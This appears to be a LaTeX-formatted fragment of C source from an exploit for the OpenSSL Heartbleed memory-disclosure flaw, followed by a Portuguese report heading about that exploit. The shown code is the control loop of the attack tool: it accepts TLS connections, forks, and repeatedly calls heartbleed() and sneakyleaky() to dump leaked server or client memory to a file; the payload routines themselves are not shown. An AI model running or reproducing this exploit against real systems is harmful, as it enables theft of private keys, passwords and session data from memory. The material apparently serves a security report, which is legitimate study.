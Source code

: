 \documentclass[11t]{article}
\begin{document}
\begin{lstlisting}[breaklines=true]
			first=0;
			repeat=1;
			heartbleed(c,type);
			while(repeat==1){
				sneakyleaky(c,file,verbose);
			}
		}
		printf("[ done.\n");
		exit(0);
	}
	else{
		int sd, pid, i;
		ret = tcp_bind(host, port);
		while(1){
      			sd=accept(ret,0,0);
			if(sd==-1){
				printf("[!] FATAL: problem with accept()\n");
				exit(0);
			}
			if(pid=fork()){
				close(sd);
			}
      			else{
				c = tls_bind(sd);
				pre_cmd(ret, precmd, verbose);
				heartbleed(c,type);
				while(repeat==1){
					sneakyleaky(c,file,verbose);
				}
				while(loop==1){
					printf("[ entered heartbleed loop\n");
					first=0;
					repeat=0;
					heartbleed(c,type);
					while(repeat==1){
						sneakyleaky(c,file,verbose);
					}
				}
				printf("[ done.\n");
				exit(0);
			}
		}
	}
}
\end{lstlisting}

\clearpage



\subsection*{Relatório Exploit OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure}
\end{document}
